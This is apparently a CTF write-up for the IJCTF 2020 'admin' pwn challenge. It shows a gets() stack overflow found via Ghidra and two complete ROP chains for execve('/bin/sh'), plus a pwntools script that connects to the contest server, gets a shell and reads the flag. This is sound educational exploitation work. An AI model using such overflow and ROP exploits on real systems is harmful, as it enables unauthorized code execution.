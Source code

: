 # IJCTF 2020

## Admin

> 100
> 
> This admin thinks his system is very safe Is it actually safe? I say it's safe what do you think?
> 
> `nc 35.186.153.116 7002`
> 
> Challenge file: [https://github.com/linuxjustin/IJCTF2020/blob/master/pwn/admin](admin)
> 
> Author: zilikos

Tags: _pwn_


### Analysis

#### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Few mitigations in place, basically no shellcode in stack, everything else is fair game.


#### File

```
admin: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=0ee31668ec040c05db870d1fcef7e198c0a53d37, stripped
```

Statically linked relatively large binary.  ROP rich.


#### Decompile with Ghidra

```c
void FUN_00400b4d(undefined8 param_1,undefined *param_2)

{
  int iVar1;
  char *pcVar2;
  undefined local_48 [64];
  
  FUN_004104e0("Username: ",param_2);
  FUN_00410330(local_48,param_2);
  pcVar2 = "admin";
  iVar1 = thunk_FUN_004004ce(local_48);
  if (iVar1 == 0) {
    FUN_004104e0("Welcome admin",pcVar2);
  }
  else {
    FUN_0040f6b0("Bye %s\n",local_48);
  }
  return;
}
```

"`main`" looks pretty basic; 64-byte buffer (`local_48`), prompt for `Username:`, assume `FUN_00410330` reads input from stdin, and check for a match.

Assuming `FUN_00410330` is `gets`, test with:

```bash
# cyclic 100 | ./admin
Username:
Bye aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Segmentation fault
```

Probably `gets`.

Stack diagram from Ghidra:

```
undefined         AL:1               <RETURN>
undefined8        RDI:8              param_1
undefined *       RSI:8              param_2
undefined1        Stack[-0x48]:1     local_48                                
```

Buffer is `0x48` bytes above return address.  With large static binary and _No PIE_, attempt ROP.

#### ROP options

Both:

```bash
ropper --file admin --chain "execve cmd=/bin/sh" --badbytes 0a
```

and

```bash
ROPgadget --binary admin --ropchain
```

return ROP chains for a shell.  Time to test.


### Exploit

#### Send `0x48` bytes:

```python
#!/usr/bin/env python3

from pwn import *

#p = process('./admin')
p = remote('35.186.153.116', 7002)

#p.recvuntil('Username: \n')
payload = 0x48 * b'A'
```

> This works locally, but remotely I had to comment out the `recvuntil`--probably a buffering issue on their end.


#### Send ROP chain

Option A: (ropper):

```python
IMAGE_BASE_0 = 0x0000000000400000 # 09c2fc813db5d38d1a82c5049191b426ffcd29dfdc71bf33b5630dae57b2f56b
pp = lambda x : p64(x)
rebase_0 = lambda x : pp(x + IMAGE_BASE_0)

rop = b''
rop += rebase_0(0x000000000000da9b) # 0x000000000040da9b: pop r13; ret;
rop += b'//bin/sh'
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000068609) # 0x0000000000468609: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000da9b) # 0x000000000040da9b: pop r13; ret;
rop += pp(0x0000000000000000)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000068609) # 0x0000000000468609: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret;
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += pp(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret;
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000010193) # 0x0000000000410193: pop rsi; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x000000000004bcc6) # 0x000000000044bcc6: pop rdx; ret;
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000015544) # 0x0000000000415544: pop rax; ret;
rop += pp(0x000000000000003b)
rop += rebase_0(0x0000000000074d15) # 0x0000000000474d15: syscall; ret;
```

Option B: (ROPgadget):

```python
rop  = b''
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e0) # @ .data
rop += p64(0x0000000000415544) # pop rax ; ret
rop += b'/bin//sh'
rop += p64(0x000000000047f321) # mov qword ptr [rsi], rax ; ret
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000444aa0) # xor rax, rax ; ret
rop += p64(0x000000000047f321) # mov qword ptr [rsi], rax ; ret
rop += p64(0x0000000000400686) # pop rdi ; ret
rop += p64(0x00000000006b90e0) # @ .data
rop += p64(0x0000000000410193) # pop rsi ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000449765) # pop rdx ; ret
rop += p64(0x00000000006b90e8) # @ .data + 8
rop += p64(0x0000000000444aa0) # xor rax, rax ; ret
rop += 59 * p64(0x0000000000474770) # add rax, 1 ; ret
rop += p64(0x000000000040123c) # syscall
```

Both `ropper` and `ROPgadget` output Python2 code, the above were converted for Python3.

> Both were tested.

Then:

```python
payload += rop

p.sendline(payload)
p.interactive()
```

Run it.

Output:

```
# ./exploit.py
[+] Opening connection to 35.186.153.116 on port 7002: Done
[*] Switching to interactive mode
$ ls
admin
bin
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
```

#### Flag

```
IJCTF{W3lc0m3_4g4in_d34r_AADMMIINN!!!}
```
